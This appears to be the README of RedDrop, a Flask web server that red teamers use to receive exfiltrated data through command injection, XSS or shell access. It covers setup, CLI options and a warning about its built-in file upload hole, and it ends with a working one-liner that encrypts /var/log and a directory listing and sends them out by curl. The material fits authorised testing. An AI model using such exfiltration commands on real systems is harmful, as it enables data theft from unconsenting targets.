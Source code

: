 ![Red Drop](docs/RedDrop.png)
# RedDrop Exfil Server
[Check out the accompanying MaverisLabs Blog Post Here!](https://medium.com/maverislabs/data-exfiltration-using-reddrop-13bcbad7acb0?source=friends_link&sk=34320be3746773a82d065d03ea05111b)

RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [File Upload](docs/FileUpload.md)
- [Automatic Payload Processing](docs/PayloadProcessing.md)
- [Automatic Archive Extraction](docs/ArchiveExtraction.md)
- [JSON Logging](docs/JSONLogging.md)
- [Configurable Options](docs/Configurations.md)
- [Authorization Rules](docs/AuthorizationRules.md)

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired


## Demo
[![Demo](https://img.youtube.com/vi/x9KmGCfyyZ0/0.jpg)](https://www.youtube.com/watch?v=x9KmGCfyyZ0)
---

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Utilize the [Authorization Rules](docs/AuthorizationRules.md) feature of RedDrop to drop requests which do not meet your criteria. 
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
mkdir uploads logs
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" --name reddrop cyberbutler/reddrop -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

     A Webserver for File and Data Exfiltration.
        Author: @cyberbutler/@thecyberbutler

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default:
                        0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML
                        (default: False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can
                        be used more than once to define multiple
                        process_list functions. Use this flag in
                        the order in which you wish to process
                        received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on
                        detected data. This option is enabled by
                        default, but should be disabled (--no-
                        auto-process) when you receive output you
                        don't expect. Such as in the case of
                        Base64 decoding being run on output that
                        is not Base64 encoded. Instead, force the
                        process with the `-p` flag. (default:
                        True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the
                        server. (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt.
                        (default: EncryptMe)
  -r AUTHORIZATION_RULES, --authorization_rules AUTHORIZATION_RULES
                        Specify an Authorization Rule to deny
                        requests which do not match the provided
                        Key and Regex value pair. Specified as
                        <Key>=<Regex>. (default: None)
  -t TAGS, --tag TAGS   Tag data received during this session in the logs as well as the directory files are uploaded to. Example:
                        -t log4j -t acme.org (default: None)
  --tls-keyfile GUNICORN.KEYFILE
                        Enables TLS Support. (Production Only) The path to a TLS key file (default: None)
  --tls-certfile GUNICORN.CERTFILE
                        Enables TLS Support. (Production Only) The path to a TLS cert file (default: None)

Far more configuration options exist which must be specified in Environment Variables, use `--dump-config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
